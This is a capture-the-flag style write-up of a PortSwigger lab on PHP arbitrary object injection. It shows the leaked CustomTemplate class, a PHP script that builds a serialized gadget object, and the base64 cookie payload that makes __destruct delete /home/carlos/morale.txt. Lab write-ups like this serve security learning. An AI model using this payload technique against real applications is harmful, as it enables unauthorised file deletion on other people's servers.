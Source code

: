 # Arbitrary object injection in PHP

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php), you'll learn: Arbitrary object injection in PHP! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110065946.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110065958.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070015.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eTlwcGwxMXF0c3FpZWR6N2h3bWZiamR3eWdlcDUxZiI7fQ==
```

As you can see, the session cookie's last 2 characters are `=`, which is base64's padding character.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eTlwcGwxMXF0c3FpZWR6N2h3bWZiamR3eWdlcDUxZiI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zy9ppl11qtsqiedz7hwmfbjdwygep51f";}
```

**Also, in the Burp Suite's site map, I found there is a PHP file called `CustomTemplate.php`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070752.png)

**Let's send that request to Burp Suite Repeater:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070822.png)

In here, we can try to read the source code:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070843.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070855.png)

The `~` worked!

**`/libs/CustomTemplate.php`:**
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

**The PHP comment looks sussy:**
```php
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
```

In here, we see the `CustomTemplate` class has a magic method called `__destruct`. This method will the `unlink()` method on the `local_file_path` attribute, which will then delete the file on `$template_file_path.lock`.

But how can we abuse that?

**The `__destruct` magic method will be automatically called.**

**That being said, we can add the `CustomTemplate` object to the serialized PHP object, which will then delete `morale.txt` file from Carlos's home directory!**
```php
<?php
    class CustomTemplate
    {
        function __construct()
        {
            $this->lock_file_path = "/home/carlos/morale.txt";
        }
    }

    $CustomTemplate = new CustomTemplate;
    $serializedCustomTemplate = serialize($CustomTemplate);

    echo "[+] Serialized: \n";
    var_dump($serializedCustomTemplate);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedCustomTemplate);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
string(79) "O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}"
[+] Base64 encoded: 
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```

**Now, we can copy the base64 encoded string, and paste it to the session cookie:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110072858.png)

**Then refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110072914.png)

Nice!

# What we've learned:

1. Arbitrary object injection in PHP